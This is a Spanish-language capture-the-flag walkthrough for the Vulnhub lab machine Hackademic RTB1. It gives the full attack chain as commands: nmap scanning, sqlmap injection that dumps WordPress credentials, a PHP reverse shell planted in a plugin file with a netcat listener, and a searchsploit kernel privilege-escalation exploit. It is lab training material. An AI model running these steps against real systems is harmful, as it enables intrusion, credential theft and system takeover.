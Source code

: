 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`

Acceder al panel de login de WordPress:
```
http://192.168.1.5/Hackademic_RTB1/wp-login.php
```
![7](https://user-images.githubusercontent.com/75953873/171924583-6a77c97a-d61c-4d81-a199-39077d868d4b.png)

- *Paso 4:* Subir código PHP y obtener una reverse shell. 

-> Manage -> Files

![8](https://user-images.githubusercontent.com/75953873/171925393-d911ddcf-cf5a-4670-8143-4026d0c70424.png)

Copiar código PHP de la siguiente ruta:
```
cat /usr/share/webshells/php/php-reverse-shell.php
```
![9](https://user-images.githubusercontent.com/75953873/171925910-7d2cc0de-93a1-4bc8-aeaf-dad026c76a9c.png)

Pegan el código en hello.php y cambian la línea de `$ip` por su IP local, luego guardan los cambios "Update File":

![10](https://user-images.githubusercontent.com/75953873/171926310-94b22d02-b809-4029-a72f-d90b1634fe8d.png)

Abren una nueva terminal y ejecutan Netcat para que escuche las conexiones por el puerto 1234. 
```
nc -lvp 1234
```

Posteriormente recargan la siguiente URL:
```
http://192.168.1.5/Hackademic_RTB1/wp-content/plugins/hello.php
```
![11](https://user-images.githubusercontent.com/75953873/171927713-64734806-0fc2-41d6-8b17-aff9e45f4b35.png)

- *Paso 5:* Identificar versión del Kernel y escalar privilegios. 

![12](https://user-images.githubusercontent.com/75953873/171928596-5a971c00-0c42-4d48-bf3c-93a776150472.png)

Localizar el exploit con searchsploit:
```
searchsploit Linux Kernel 2.6.3 RDS Local Privilege Escalation
```
![13](https://user-images.githubusercontent.com/75953873/171930886-0c5950e1-7c71-4a88-9aec-0b2fd90a1fa4.png)

Descargar el exploit:
```
searchsploit -m 15285
```
![14](https://user-images.githubusercontent.com/75953873/171931554-8fde81f6-88fd-4281-8597-ebeb5fd57124.png)

